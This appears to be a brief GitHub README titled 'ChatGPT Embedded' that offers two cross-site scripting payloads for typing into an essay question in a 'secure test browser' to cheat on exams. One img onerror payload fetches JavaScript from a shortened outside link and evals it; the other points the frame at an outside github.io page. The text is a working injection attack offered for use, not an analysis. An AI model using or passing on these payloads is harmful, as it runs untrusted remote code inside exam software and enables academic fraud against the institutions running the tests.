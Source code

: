 # ChatGPT Embedded
This can be used for xss in secure test browser just type this into essay question (good luck memorizing it)
```
<img src=# onerror='fetch("https://tinyurl.com/payloadcheat").then(r => r.text()).then(eval);'>
```


Or Shorter but havent test it yet
```
<img src=x onerror=frameElement.src='https://joaawd.github.io/p/'>  
```


 # I DIDNT DEVELOP THE CODE I ADDED TO IT AND YEAH, I JUST MADE THE HTML 
